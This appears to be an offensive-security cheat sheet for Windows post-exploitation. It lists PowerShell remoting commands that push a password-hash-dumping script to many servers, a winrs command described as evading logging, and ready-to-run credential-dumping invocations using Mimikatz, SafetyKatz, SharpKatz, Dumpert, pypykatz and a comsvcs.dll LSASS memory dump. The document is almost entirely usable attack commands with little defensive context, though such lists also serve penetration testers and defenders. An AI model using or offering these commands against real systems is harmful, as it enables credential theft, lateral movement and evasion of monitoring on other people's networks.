 #### Execute Commands or Scriptblocks
```powershell
Invoke-Command -scriptblock {Get-Process} -ComputerName (Get-Content (<list_of_servers>)
```
#### Execute Scripts from Files
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHasses.ps1 -ComputerName (Get-Content <list_of_servers>)
```
#### Execute Locally Loaded Functions on Remote Machines
```powershell
Invoke-Command -scriptblock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```
#### Pass Arguments to the Function
```powershell
Invoke-Command -scriptblock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```
#### Function Call Within the Script
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers)
#### Execute Stateful Commands
```powershell
$Sess = New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
```

### WinRS

https://github.com/bohops/WSMan-WinRM

#### winrs - Evade Logging
```powershell
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
```

### Invoke-Mimikatz
#### Dump Credentials on a local machine using Mimikatz
```powershell
InvokeMimikatz -Command '"sekurlsa::ekeys"'
```
#### Dump Credentials using SafetyKatz
```powershell
safetykatz.exe "sekurlsa::ekeys"
```
#### Dump Credentials Using SharpKatz
```powershell
sharpkatz.exe -Command ekeys
```
#### Dump Credentials using Dumpert
```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll.Dump
```
#### Dump Credentials Using pypykatz
```powershell
pypykatz.exe live lsa
```
#### Using comsvc.dll
```powershell
tasklist /FI "IMAGENAME eq lsass.exe" rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```
